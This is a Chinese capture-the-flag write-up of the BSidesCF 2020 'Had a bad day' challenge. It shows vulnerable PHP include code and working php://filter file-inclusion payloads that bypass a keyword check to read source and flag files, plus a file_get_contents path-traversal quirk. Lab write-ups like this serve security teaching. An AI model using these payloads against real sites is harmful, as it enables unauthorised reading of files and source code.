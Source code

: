 # \[BSidesCF 2020]Had a bad day

## \[BSidesCF 2020]Had a bad day

## 考点

* 文件包含配合伪协议读取文件
* php://filter伪协议特性
* file\_get\_contents特性

## wp

![](<../../.gitbook/assets/image (4) (1) (1) (1).png>)

两个按钮，点一下，页面跳转到index.php?category=woofers

尝试php伪协议文件包含，`index.php?category=php://filter/read=convert.base64-encode/resource=index.php`，得到报错无法包含<mark style="color:red;">index.php.php</mark>

![](<../../.gitbook/assets/image (9) (1) (1) (1).png>)

改一下payload，`index.php?category=php://filter/read=convert.base64-encode/resource=index`

```php
<?php
$file = $_GET['category'];
if(isset($file))
{
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
            include ($file . '.php');
}else{
echo "Sorry, we currently only support woofers and meowers.";
}
}
?>
```

要包含的文件名中必须含有woffers或meowers或index

这里就用php://filter伪协议的特性，可以在协议上套一层协议，并且遇到识别不了的会自动过滤

`index.php?category=php://filter/convert.base64-encode/write=woofers/resource=flag`

`index.php?category=php://filter/convert.base64-encode/woofers/resource=flag`

## 小结

1. php://filter伪协议遇到识别不了的协议或过滤器会自动过滤，比如`php://filter/convert.base64-encode/write=woofers/resource=flag`会自动过滤`write=woofers`
2. file\_get\_contents在遇到无法识别的协议时，会把它当做目录处理

```php
$a = file_get_contents("a/://github/../../../2.txt");
echo $a;
$a = file_get_contents("http(://github/../../2.txt");
echo $a;
// 123
```

目录结构如下

* index.php
* 2.txt
